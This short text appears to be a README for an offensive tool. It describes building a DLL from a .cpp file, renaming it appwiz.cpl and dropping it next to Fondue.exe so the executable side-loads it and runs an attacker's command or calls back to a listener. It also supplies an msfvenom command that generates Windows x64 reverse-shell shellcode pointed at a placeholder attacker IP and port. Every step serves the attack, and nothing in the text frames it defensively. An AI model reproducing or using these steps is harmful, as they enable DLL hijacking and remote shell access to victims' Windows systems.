 1 - Create DLL on Visual Studio

2 - Copy .cpp to visual Studio

3 - Replace the str variable by the command you want to execute on the attacker machine. Replace server ip and server port 

4 - Build it, rename it as appwiz.cpl and save it in the same folder as Fondue.exe and execute fondue

5 - On attacker side, listen on the port specified in the .cpp

If using process migration / process injection, change the payload with:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKERIP LPORT=ATTACKERPORT -f c
replace the shellcode
